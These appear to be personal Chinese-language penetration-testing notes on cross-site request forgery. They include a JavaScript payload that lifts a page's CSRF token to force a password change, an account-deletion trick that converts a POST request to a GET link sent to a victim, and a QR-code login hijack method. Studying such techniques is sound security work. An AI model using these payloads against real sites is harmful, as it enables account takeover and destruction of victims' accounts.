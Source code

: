 xss无法获取cookie造成危害的时候，尝试csrf，通过写payload获取csrftoken
ex.
```
var reg = new XMLHttpRequest();
reg.onload = reqListener; // 确保变量名一致
reg.open("POST", "https://test.com/profile/password", true);
reg.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
reg.withCredentials = true;
reg.send("user[password]=passwordtest&userpassword_confirmation=passwordtest&_csrf=" + document.querySelector("head > meta:nth-child(14)").content);

function reqListener() {
    var data = this.responseText;
    alert(data);
}
```

账号注销案例
ex.
```
POST /applications/ChangeUserInfo HTTP/1.1 

{
"username":""
"head":""
}
```
直接改为get请求，相当于直接没有参数，发给受害者就直接删除了账号.

二维码csrf
https://mp.weixin.qq.com/s/soms88YZP4GLAxy4fajQFg
二维码登陆流程
1. 服务器生成token，并且一直请求查看token被谁用了
2. 用户扫码确认登陆，通过cookie等方式把自己账号和该token绑定
3. 浏览器识别到token被使用，于是登陆到该账号
如何利用？
制作确认登陆那一步的数据包的poc发给受害者，让他和token绑定，然后我们的浏览器就登陆到受害者的账号了
![[c4a6ec97f16ba311b8fce47d55bfd34.jpg]]
二维码实际上的请求
![[55a16b78ccb00ada29377a7aafd1037.jpg]]

